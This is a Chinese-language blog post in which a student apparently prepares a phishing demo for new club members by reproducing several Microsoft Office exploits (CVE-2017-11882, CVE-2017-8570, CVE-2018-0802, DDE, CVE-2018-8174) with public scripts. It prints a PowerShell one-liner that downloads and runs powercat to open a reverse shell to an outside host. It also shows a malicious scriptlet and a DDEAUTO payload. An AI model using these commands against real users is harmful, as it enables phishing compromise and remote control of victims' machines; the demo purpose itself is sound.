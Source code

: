 新的一年迎新又开始啦，回想一年前这个时候的自己，算是有那么一丢丢的进步了吧。一年前的时候，貌似php都不会2333，浏览器的开发者工具都不晓得，
貌似就会搭一个wifi，hahah，扎心了，新的一年努力学习吧骚年！！！
这次迎新让同学们见识下钓鱼邮件是什么样子的，主要放的是word文档，也可以整理下office这两年爆出的漏洞，虽然说过不了360的吧，但是演示起来很酷的呀～

## CVE-2017-11882
其实复现起来都很好说，github上都给了生成文件的脚本了 [链接](https://github.com/unamer/CVE-2017-11882)
首先为了实际钓鱼中应用，先弹个shell再说，找到了两种方式，一种是powershell 反弹一句话，另一种是直接写入shellcode运行，先看第一种
powershell一句话反弹shell
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 1.1.1.1 -p 9999 -e cmd
```
[参考链接](https://www.anquanke.com/post/id/99793)

然后利用脚本构造恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/81.png)

kali上nc监听端口等待连接 ````nc -lvp 9999````
目标打开恶意word文档后 shell反弹回来

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/82.png)

第二种方式先用msfvenom生成shellcode

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/83.png)

然后利用脚本生成恶意word文档

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/84.png)

目标打开文档后msf上线

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/85.png)

不过后来考虑了下，同学们应该get不到上面操作的含义，所以直接来个简单直接的办法

````python a.py -c "cmd.exe /c start ssText3d.scr /s" -o 1.doc````
同学们打开恶意文档后就会出现如下文字

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/86.png)

## CVE-2017-8570

[Github脚本链接](https://github.com/rxwx/CVE-2017-8570)

实现跳出文字的效果，这里要注意一下，先要修改calc.sct文件

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[

		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c start ssText3d.scr /s");
	
	
]]>
</script>

</scriptlet>
```
然后利用脚本生成恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/87.png)

这个是远程下载文件calc.sct修改方式

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/88.jpg)

没有尝试powershell一句话，应该可以的吧

##CVE-2018-0802

这个是对CVE-2017-11882补丁的一个绕过 github脚本很详细了 [链接](https://github.com/rxwx/CVE-2018-0802)

## DDT
这个用不到office宏 复现很简单

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/89.png)

改成````DDEAUTO C:\\windows\\system32\\cmd.exe "/c start ssText3d.scr /s"````

但是应用的时候要目标点击”是“才行

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/810.png)

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/811.png)

## CVE-2018-8174

这个直接就有msf的脚本呀 放上链接 [链接](https://github.com/0x09AL/CVE-2018-8174-msf)

but这些实际当中还能用嚒，可能会碰上没装杀软的吧hahaha......

